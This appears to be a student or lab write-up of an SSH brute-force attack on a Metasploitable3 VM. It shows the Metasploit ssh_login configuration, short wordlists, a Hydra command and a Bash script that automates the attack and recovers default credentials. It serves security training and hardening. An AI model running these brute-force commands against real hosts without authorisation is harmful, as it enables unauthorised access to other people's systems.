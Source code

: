 # Phase 1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- **Phase 1.1**: Brute-force attack using Metasploit and custom wordlists
- **Phase 1.2**: Automated brute-force attack using a Bash script with Hydra

---

## Environment Setup

- **Attacker Machine**: Kali Linux

  - Hostname: `kali`
  - Host-Only IP Address: `192.168.56.104`
  - NAT IP Address: `10.0.2.15`
  - Username: `kali`

- **Victim Machine**: Metasploitable3

  - Hostname: `metasploitable3`
  - Host-Only IP Address: `192.168.56.103`
  - NAT IP Address: `10.0.2.2`
  - Username: `vagrant`
  - Password: `vagrant`

- **Targeted Service**

  - **Service**: SSH
  - **Port**: 22
  - **Vulnerability**: Default/weak credentials
  - **Goal**: Compromise SSH access via brute-force attack

---

## Phase 1.1 – SSH Brute-Force Attack Using Metasploit

### 1. Launch Metasploit Framework

We started Metasploit with:

```bash
msfconsole
```

![](image-1.jpg)

---

### 2. Select and Configure Module

We selected the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

We then configured the target:

```bash
set RHOSTS 192.168.56.103
```

![](image-1.jpg)

---

### 3. Prepare and Load Wordlists

We created two files:

**user.txt**

```
msfadmin
user
postgres
vagrant
Rana
Sarah
Password
```

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
123456789
101918
```

We set these files in Metasploit:

```bash
set USER_FILE user.txt
set PASS_FILE pass.txt
set VERBOSE true
```

![](image-2.jpg)

---

### 4. Run the Attack

```bash
run
```

Metasploit attempted multiple combinations. It successfully logged in using:

- **Username**: `vagrant`
- **Password**: `vagrant`

```text
[+] 192.168.56.103:22 - Success: 'vagrant:vagrant'
```

![](image-3.jpg)

---

### Summary

We successfully brute-forced the SSH credentials on Metasploitable3 using Metasploit and a dictionary attack. This confirms that the service is vulnerable due to default credentials.

---

## Phase 1.2 – Automated Hydra Attack Using Bash Script

### 1. Connectivity Test

We first verified that the attacker can reach the victim via `ping`:

```bash
ping 192.168.56.103
```

![](image-4.png)

---

### 2. Prepare Username and Password Lists

We created the following files:

**user.txt**

```
msfadmin
user
postgres
vagrant
```

![](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

![](image-9.png)

---

### 3. Run Hydra

Using the following command:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Hydra successfully found:

- **Username**: `vagrant`
- **Password**: `vagrant`

![](image-11.png)

---

### 4. Bash Script Execution

We automated the attack with the following script:

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

![](image-6.png)

Then ran:

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed success:

![](image-5.png)

---

## Conclusion

In both Phase 1.1 and 1.2, we successfully compromised the Metasploitable3 SSH service using dictionary-based brute-force attacks. The presence of weak/default credentials (`vagrant:vagrant`) made the system vulnerable. This confirms the need for further security hardening in the upcoming phases.
